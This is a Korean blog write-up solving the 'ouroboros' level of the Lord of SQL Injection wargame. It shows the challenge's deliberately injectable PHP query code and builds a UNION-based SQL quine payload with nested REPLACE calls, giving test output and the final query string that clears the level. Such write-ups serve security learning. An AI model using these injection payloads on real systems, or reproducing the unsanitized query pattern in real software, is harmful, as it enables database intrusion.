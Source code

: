 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - ouroboros 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제도 테이블이 비어 있었다.  

근데 `pw`를 추출하래...  

어떻게 하라는지 고민하다가 웹짱해커님께 물어봐서 겨우 풀었다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select pw from prob_ouroboros where pw=''
----------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

첨에는 문제 보자마자 `오?` 했다.  

그래서 신나게 `?pw=1' or pw like '%'%23`을 입력 해 보았다.  

그런데 아무런 결과도 나오지 않았다.  

보아하니 얘도 테이블을 비워 둔 것 같았다.  

그럼.. 내가 입력 한 값이 곧 결과값이 되어야 하는데, 이걸 도저히 어떻게 해야하는지 감이 안잡혔다.  

`?pw=1' union select '1`을 입력하면, `Pw : 1`이 출력되서 `뭔가 union을 써야 하는구나...`는 알겠는데 어떻게 해야 내가 입력한 값과 출력 값이 같게 만들 수 있는지를 모르겠더라.  

그래서 또 다시 `웹 짱 해커`님한테 물어봤다.  

그랬더니 힌트로 `Quine`라는 것을 알려 주었다.  

[위키백과 - Quine](https://en.wikipedia.org/wiki/Quine_(computing))  

[SQLi Quine](https://www.shysecurity.com/post/20140705-SQLi-Quine)

인터넷 찾아보니 이 두 가지가 제일 도움이 되었다.  

즉, `Quine`은 `자기 자신의 소스코드를 출력하는 것`을 의미한다고 한다.  

이번 문제에 딱 맞는 컨셉이다.  

그래서 위의 링크 중에 위키백과에서 아래와 같은 쿼리문을 가져와 테스트 해 보았다.  

```
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

그 결과 내가 입력한 내용이 그대로 결과 값으로 나온 것을 확인할 수 있었다.  

```
mysql> SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine; 
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Quine                                                                                                                                                                                                      |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

이 것을 바탕으로 문제를 풀기 위해 `SELECT`를 `a' union SELECT`로 변경했다.  

그랬더니 `'`와 `"`이 내가 입력한 값과 조금씩 달라졌다.  

왜 바뀌는지 도저히 모르겠어서 `REPLACE` 함수를 기준으로 쿼리문을 잘라서 비교 해 보았다.  

쿼리를 살펴 보면 `$`가 있는데, 앞의 두 `$` 자리에 마지막의 `SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine`가 `REPLACE` 되어 들어가게 된다.  

그 과정에서 `"`가 `'`로 바뀌게 되는데, 나는 쿼리의 시작 부분에서 `a' union SELECT`가 필요하므로, 처음에 `a"`로 입력하고 이 후 `REPLACE` 함수를 실행하는 과정에서 `a'`로 바뀌도록 했다.  

어차피 뒤의 `a" union SELECT` 부분은 실제로 쿼리가 실행되는 부분이 아니어서 상관없기 때문이다.  

그 결과 만들어진 쿼리는 아래와 같다.  

```
select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

내가 내 서버에서 테스트 한 쿼리인데 너무 복잡해서 알아보기가 힘든 것 같다.  

```
mysql> select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| pw                                                                                                                                                                                                                                    |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.01 sec)
```

쿼리를 실행 한 결과, 내가 입력 한 쿼리가 그대로 결과 값으로 나온 것을 확인할 수 있다.  

드디어 이를 바탕으로 아래와 같은 쿼리스트링을 넘겨주었다.  

```
?pw=a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23') AS Quine%23
```

이 복잡한 쿼리를 통해 드디어 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_ouroboros where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#
OUROBOROS Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

`OUROBOROS Clear!!`
